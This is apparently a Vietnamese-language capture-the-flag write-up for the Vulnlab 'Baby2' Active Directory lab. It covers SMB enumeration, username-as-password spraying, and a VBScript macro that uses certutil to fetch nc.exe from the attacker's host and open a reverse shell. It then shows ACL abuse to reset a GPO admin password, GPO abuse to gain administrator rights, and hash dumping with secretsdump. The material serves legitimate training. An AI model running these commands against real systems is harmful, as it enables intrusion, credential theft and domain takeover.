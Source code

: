 ```yaml
---
title: WRITE-UP Vulnlab Baby2
date: 2024-9-30 09:00:01 +0700
categories: [write up, vulnlab, red team, oscp, window]
tags: [vulnlab]     # TAG names should always be lowercase
---
```


# Write-up Baby2 -Vulnlab
- Nmap 
```
sudo nmap -sC -sV -p1-20000 10.10.93.93 --min-rate=3000 -T4
```
![alt text](/assets/img/baby2/image.png)

day la lab AD vi port 88 mo 

- RECON SMB

```
crackmapexec smb target 10.10.93.93 -u 'guest' -p '' --shares //null search
```

![alt text](/assets/img/baby2/image-1.png)

ta co the null search duoc va doc duoc 

READ
* apps
* IPC$
* NETLOGON
* homes

WRITE
* homes

Gio xem la trong cac file share co gi nhe 

```
smbclient \\\\10.10.93.93\\apps
```

![alt text](/assets/img/baby2/image-2.png)

sau khi check t duoc 1 ma hex

![alt text](/assets/img/baby2/image-3.png)

co ve ko co gi check tiep 

```
smbclient \\\\10.10.93.93\\homes
```

![alt text](/assets/img/baby2/image-4.png)

co ve day se cho ta 1 list user

![alt text](/assets/img/baby2/image-5.png)

brute-force xem lieu chung ta co the lam gi duoc voi nhung user nay k su dung user:user

```
crackmapexec smb target 10.10.93.93 -u user -p user --continue-on-success
```

sau khi brute-force ta co duoc 2 user 


baby2.vl\Carl.Moore:Carl.Moore

baby2.vl\library:library

![alt text](/assets/img/baby2/image-6.png)

![alt text](/assets/img/baby2/image-7.png)

sau khi login ta co the doc duoc doc xem no xem co gi khong

READ 
* docs
* SYSVOL

```
smbclient \\\\10.10.93.93\\docs -U Carl.Moore --password='Carl.Moore'
smbclient \\\\10.10.93.93\\SYSVOL -U Carl.Moore --password='Carl.Moore'
```
![alt text](/assets/img/baby2/image-8.png)
![alt text](/assets/img/baby2/image-9.png)

sau khi check thi ta thay co 1 file cho phep tao o dia va truyen file qua lai trong server dan macro 
vi vay ta co the tao reverse o day

```
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c mkdir C:\Temp"
oShell.run "cmd.exe /c certutil -urlcache -f http://10.8.3.170:8888/nc.exe C:\Temp\nc.exe"
oShell.run "cmd.exe /c C:\Temp\nc.exe 10.8.3.170 443 -e cmd.exe"

```

![alt text](/assets/img/baby2/image-11.png)
![alt text](/assets/img/baby2/image-10.png)

vay la t co the control duoc user ```baby2\amelia.griffiths```

den gio thi khong co huong phat trien tiep vi vay ta se phat trien tiep su dung bloodhound

```
bloodhound-python -d 'baby2.vl' -u 'Carl.Moore' -p 'Carl.Moore' -c all -ns 10.10.93.93 --zip
```

![alt text](/assets/img/baby2/image-12.png)

![alt text](/assets/img/baby2/image-14.png)

ta thay la user cua ta co the ```WRITEDACL``` toi ```GPOadm```
ta import powerview de co the chay nhie command hon

```
certutil -urlcache -f http://10.8.3.170:8888/powerview.ps1 powerview.ps1
import-module ./powerview.ps1
```

![alt text](/assets/img/baby2/image-13.png)

vi ta co quyen WriteDACL len GPO vi vay ta co the doi mat khau cua ```gpoadm```

```
Add-DomainObjectAcl -Rights "all" -TargetIdentity "gpoadm" -PrincipalIdentity "Amelia.Griffiths"

$cred = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

set-domainuserpassword gpoadm -accountpassword $cred
```

sau khi doi mat khau cua ```gpoadm``` thi ta thay la thang ```gpoadm``` co quyen ```generic all``` cho phep abuse den ```domain controler``` 

thi ben trong huong dan cua thang bloodhound keu su dung tool ```pygpoabuse``` de abuse ```gpoadm``` to administrator

```
python3 pygpoabuse.py baby2.vl/gpoadm:Password123! -gpo-id 6AC1786C-016F-11D2-945F-00C04FB984F9 -dc-ip 10.10.93.93 -command 'net localgroup administrators /add gpoadm'
```
![alt text](/assets/img/baby2/image-15.png)

sau khi abuse thi de join vao may thi can mat khau ```SAM``` cua may cai nay thi thang ```impacket-secretdump``` lam dc 

```
impacket-secretsdump baby2.vl/gpoadm:'Password123!'@10.10.93.93
```

![alt text](/assets/img/baby2/image-16.png)

login with hash password dump duoc voi ```evil-winrm```

![alt text](/assets/img/baby2/image-17.png)

Now we are root :3